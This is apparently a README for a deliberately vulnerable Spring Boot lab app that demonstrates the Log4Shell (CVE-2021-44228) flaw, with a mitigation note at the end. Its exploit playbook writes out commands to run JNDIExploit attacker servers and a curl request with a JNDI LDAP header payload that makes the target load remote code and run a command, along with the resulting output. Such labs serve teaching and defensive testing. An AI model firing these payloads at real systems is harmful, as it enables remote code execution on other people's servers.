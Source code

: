 # Vulnerable application

This repository contains a Spring Boot web application vulnerable to `CVE-2021-44228`, known as [log4shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).

It uses 
* `log-4j-core:2.14.1` (through `spring-boot-starter-log4j2`) and
* `openjdk:8u181`

## Running the application

Run it:

```bash
docker run --name vulnerable-app --rm -p 8080:8080 amtoya/log4shell-vulnerable-app
```

Or alternatively, build it yourself:

```bash
docker build . -t vulnerable-app
docker run -p 8080:8080 --name vulnerable-app --rm vulnerable-app
```

## Exploiting playbook

Using the following steps you can reproduce a log4shell exploit. 
If you are not familiar with how the attack works under the hood check out this [article](https://learn.snyk.io/lessons/log4shell/java/) repo.

**Update (Dec 13th)**: *The JNDIExploit repository has been removed from GitHub (presumably, [not by GitHub](https://twitter.com/_mph4/status/1470343429599211528)). I therefore recommend you to used the saved version from this repository.*

### Setup attacker servers
First we have to setup the attacker servers. This consist of
* a **LDAP server** that will redirect us to our malicious HTTP server
* a **HTTP server** that will return the harmful payload

We use [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) to spin up the attacker servers.

```bash
git clone https://github.com/AmitKulkarni9/log4shell-vulnerable-app.git
cd log4shell-vulnerable-app/src/main/resources
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i [your-private-ip] -p 8888
```

### Triggering the exploit
As payload we want to execute `touch /tmp/pwned` (which corresponds to the base64-encoded `dG91Y2ggL3RtcC9wd25lZAo=`) on the vulnerable applications server.

Trigger the exploit using:

```bash
# will execute 'touch /tmp/pwned'
curl localhost:8080 -H 'user: ${jndi:ldap://[your-private-ip]:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

The output of JNDIExploit shows that the attacker servers responded with the malicious exploit and executed the payload:

```
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
[+] Received LDAP Query: Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo
[+] Paylaod: command
[+] Command: touch /tmp/pwned

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo redirecting to http://[your-private-ip]:8888/Exploitjkk87OnvOH.class
[+] New HTTP Request From /[your-private-ip]:50119  /Exploitjkk87OnvOH.class
[+] Receive ClassRequest: Exploitjkk87OnvOH.class
[+] Response Code: 200
```

To confirm that the code execution was successful, we check that the file `/tmp/pwned.txt` was created in the container running the vulnerable application:

```
$ docker exec vulnerable-app ls /tmp

...
pwned
...
```

### Mitigation Strategy

The mitigation strategy is located under doc folder. One of the strategies - Use logshell-remediation.yaml to deploy the container. The SecurityContext of readOnlyRootFilesystem: true can be used to not write into root file system to mitigate this vulnerablility.

## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/  
https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/  
https://github.com/christophetd/log4shell-vulnerable-app/
